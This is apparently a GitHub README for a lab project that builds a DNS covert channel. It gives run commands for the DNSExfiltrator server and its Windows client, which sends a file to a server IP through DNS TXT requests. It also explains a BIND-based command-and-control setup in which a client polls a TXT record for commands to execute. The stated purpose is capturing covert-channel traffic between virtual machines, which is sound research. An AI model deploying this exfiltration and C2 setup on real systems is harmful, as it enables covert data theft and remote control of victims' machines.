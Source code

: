 # DNSExfiltrator

The bulk of the DNS exfiltration code is from this repository.

https://github.com/Arno0x/DNSExfiltrator

For our purposes, the aim is to use the DNS exfiltrator code to capture traffic for a DNS covert channel. The current set up is to use two virutal machines - one running the Python server script and another (Windows) running the client exe.

To run the server:

```sudo python3 dnsexfiltrator.py -d [domain] -p [passowrd]```

To run the client:

```.\dnsExfiltrator.exe [file] [domain] [password] -b32 s=[server ip address]```

The server acts as a DNS server - it is not required to configure one seperately. The client side transfers the given file in the format of an ecrypted zip file to the server through DNS text record requests. Currently, their only exists a client side script for Windows.

# Combined Covert Channel

There is also supported a combined covert channel which implements exfiltration over DNS, but also a more standard C2.

The setup for this is detailed below.

- DNS bind server. All the relavent configuration files are present in this repository. Essentially, there is a normal zone for normal DNS operation (netres.com), another zone for C2 operation (c2.netres.com) with edit permissions enabled, and a forward zone to be used for data exfiltration (exfil.netres.com).  

- Client side script. Use ```python covert_dns.py``` to start the client side script. This script continually polls the server at the message.c2.netres.com domain endpoint for new commands to run.

- The server side script. Continually asks the user for commands to issue to the client. Commands are issued to the client by updating the message.c2.netres.com text record. The server updates the record for ten seconds giving the client enough time to read the command, and then resets the record to be empty.

- The exfiltration command can be also be given from the server script with ```exfiltrate [file name]```. This will cause the client to run the dnsExfiltrator.exe program, which makes a request to exfil.netres.com. 

- The server side exfiltration script also needs to be running with ```sudo python3 dnsexfiltrator.py -d exfil.netres.com -p password```. In the combined covert channel, exfiltration works by having the main bind server forward all requests to the exfil.netres.com zone to this script, which is running its own DNS server on 127.0.0.1:53535. This allows us to have a normal BIND server for other purposes, while also running the custom DNS server to serve the exfiltration commands.

## Added Details

In order to function, the C2 server side python scripts needs to be able to edit the message.c2.netres.com text record. If you are trying to set this up yourself and getting a ```SERVFAIL```, check ```journalctl -xe``` for the error. It might be that BIND does not have permissions in the zone directory to create the db.c2.netres.com.jnl file, which it needs in order to edit the DNS records.

Additionally, currently there is no way for the client to send updates back to the server (i.e. command run successfully or simple command output). This is a work in progress. To properly read commands, the the client and server both operate on 10 seconds sleep timers. The server puts its command into the message.c2.netres.com text record for only 10 seconds before clearing it. Conversely, the client reads from this text record once every 10 seconds. This allows semi-reliable communcation of the commands without full two-way communication.

